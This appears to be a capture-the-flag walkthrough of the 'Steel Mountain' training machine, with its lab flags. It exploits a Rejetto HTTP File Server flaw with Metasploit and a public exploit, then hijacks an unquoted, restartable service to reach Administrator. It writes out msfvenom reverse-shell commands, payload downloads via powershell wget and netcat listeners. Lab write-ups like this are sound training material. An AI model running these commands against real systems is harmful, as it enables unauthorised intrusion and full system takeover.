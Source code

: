 ```
Steel Mountain
Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.
```

```
IP Address: 10.10.253.201, 10.10.230.176
```

```
Task #1 : Introduction
```
Deploy the machine.

1. Who is the employee of the month? => Bill Harper // As soon as we load the web-page there is an image opening the image in different tab shows file name to be BillHarper.png

```
Task #2 : Initial Access
```
Now you have deployed the machine, lets get an initial shell!

1. Scan the machine with nmap. What is the other port running a web server on? => 8080 //nmap -sC -sT 10.10.253.201 -oN nmap/initial.txt
2. Take a look at the other web server. What file server is running? => Rejetto Http File Server // Open the port 8080 and notice the file server link.
3. What is the CVE number to exploit this file server? => 2014-6287 // Quick googling of HFS 2.3 leads to CVE
4. Use Metasploit to get an initial shell. What is the user flag? => 04763b6fcf51fcd7c13abc7db4fd365
	1. msfconsole
	2. search cve-2014-6287
	3. use windows/http/rejetto_hfs_exec
	4. set RHOSTS $IP
	5. set RPORT 8080
	6. set SRVHOST local ip
	7. Show payloads
	9. set payload windows/meterpreter/reverse_tcp
	10. We have a shell
	11. once meterpreter shell is up > search -f user.txt
	12. cd C:\Users\bill\Desktop // cat user.txt 

```
Task #3 : Privilege Esclation
```
Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!


1. To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

	1. wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
	2. mv file to /opt/Powersploit/Privesc
	3. chmod 600 PowerUp.ps1
	4. now from meterpreter session upload the file.
	5. now load powershell in meterpreter
	6. now enter powershell_shell this will load run the powershell in meterpreter session
	7. run the uploaded file . .\Powerup.ps1
	8. now run the command Invoke-AllChecks to perform PrivEsc
2. Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name? => AdvancedSystemCareService9
	1. Check the list displayed after Invoke-AllChecks command
	2. One of the service name AdvancedSystemCareService9 has canRestart premission set to True.
3. The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
Use msfvenom to generate a reverse shell as an Windows executable.
	1. msfvenom -p windows/shell_reverse_tcp LHOST=10.8.20.244 LPORT=4449 -e x86/shikata_ga_nai -f exe -o ASCService.exe
	2. upload the file using upload module in meterpreter
	3. in meterpreter type shell and press enter
	4. run the command to stop the AdvancedSystemCareService9 service //sc stop AdvancedSystemCareService9
	5. COPY ASCService.exe to C:\Program Files (x86)\IObit\Advanced SystemCare
4. 	What is the root flag? => f314f57607c00fd09803a587db80
	1. sc start AdvancedSystemCareService9
	2. crt c
	3. background the meterpreter session
	4. sessions command will show you the new session created
	5. sessions -i 5 and enter
	6. cd C://Administrator/Desktop
	7. read root.txt using type command

```
Task #4 Access and Escalation Without Metasploit
```
Now let's complete the room without the use of Metasploit.
For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to

1. To begin we shall be using the same CVE. However, this time let's use this exploit.
*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*
To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub!
You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!
	1. Download the exploit from https://www.exploit-db.com/exploits/39161 or use searchsploit
	2. Download the netcat binary from https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe and rename it to nc.exe
	3. Now open the exploit file in text editor and change the local IP address to the one you are working on and port of your choice.
	4. Now in termail run nc -lvnp on port you entered in the exploit file
	5. Run a pythom -m SimpleHTTPServer 80 from the directory you have nc.exe in
	6. now run the exploit using python exploit.py <target_ip> <port>
	7. Notice the python web server getting populated and the netcat binary is uploaded successfully to the target server
	8. Now re run the exploit and notice you have a shell.
2. Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.
Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running. 
What powershell -c command could we run to manually find out the service name?
*Format is "powershell -c "command here"* => Get-Service
	1. In the shell run powershell -c Get-Service
	2. to upload winPEAS to toarget download the winPEAS.exe file and place it in same directory where pytom server is running
	3. Now from target shell execute powershell -c wget "http://10.8.20.244:80/winPEASx86.exe" -outfile "winPEASx64.exe"
	4. winPEAS is uploaded successfully
3. Now let's escalate to Administrator with our new found knowledge.
Generate your payload using msfvenom and pull it to the system using powershell.
Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.
First we need to stop the service which we can do like so;
sc stop AdvancedSystemCareService9
Shortly followed by;
sc start AdvancedSystemCareService9
Once this command runs, you will see you gain a shell as Administrator on our listener!
	1. Just like earlier create a payload using msfvenom and name it ASCService.exe
	2. Copy the payload in the dirctory used as python HTTPServer
	3. Now stop the AdvancedSystemCareService9 using sc stop AdvancedSystemCareService9
	4. Upload the ASCService.exe in the same directory where normal ASCService.exe is placed
	5. use the command to do so powershell -c wget "http://10.8.20.244:80/ASCService.exe" -outfile "ASCService.exe"
	6. In a terminal run nc -lvnp <given_port> and press enter
	7. Now run sc start AdvancedSystemCareService9
	8. Check the new netcat connection and notice you a root shell.
